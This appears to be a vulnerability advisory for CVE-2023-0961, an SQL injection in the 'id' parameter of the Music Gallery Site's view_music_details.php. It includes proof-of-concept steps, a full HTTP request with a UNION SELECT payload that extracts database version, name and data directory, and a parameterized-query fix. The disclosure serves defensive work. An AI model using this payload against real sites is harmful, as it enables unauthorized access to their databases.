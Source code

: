 # Music Gallery Site - SQL Injection on page view_music_details.php and parameter id is vulnerable. 
>Any remote attacker can access this page to exploit the vulnerbility.
### Date: 
> 21 February 2023

### CVE Assigned:
**[CVE-2023-0961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0961)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0961) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0961)

### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Music Gallery Site](https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.

# Vulnerable URL:
> URL: php-music/view_music_details.php?id=*

### Affected Page:
> view_music_details.php
> On this page cid parameter is vulnerable to SQL Injection Attack
> URL of the vulnerable parameter is: php-music/view_music_details.php?id=*
### Description:
> The Music Gallery site does have public pages for music library. Whenever someone click on info button any music the popup will appear on the same page. However, on backend server calls the file view_music_detail.php where Get id parameter is vulnerable to SQL Injection.
### Proof of Concept:
> Following steps are involved:
1. Go to the music list and click on view info of any music.
2. intercept the traffic through burp and get the actual URL
3. In URL, there is a parameter 'id' which is vulnerable to SQL injection (view_music_details.php?id=1*)
### Request:
```
GET /php-music/view_music_details.php?id=1%27+and+false+union+select+1,version(),database(),4,@@datadir,6,7,8,9,10,11--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=a5fd11866a86264db3a68bb1817b2c7f
Connection: close
```
### Response:
![image](https://user-images.githubusercontent.com/123810418/220317330-519b0112-85fd-4c6f-bf35-446216d73549.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT * from `music_list` where id = :id and delete_flag = 0");
$sql->bindparam(':id', $id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading
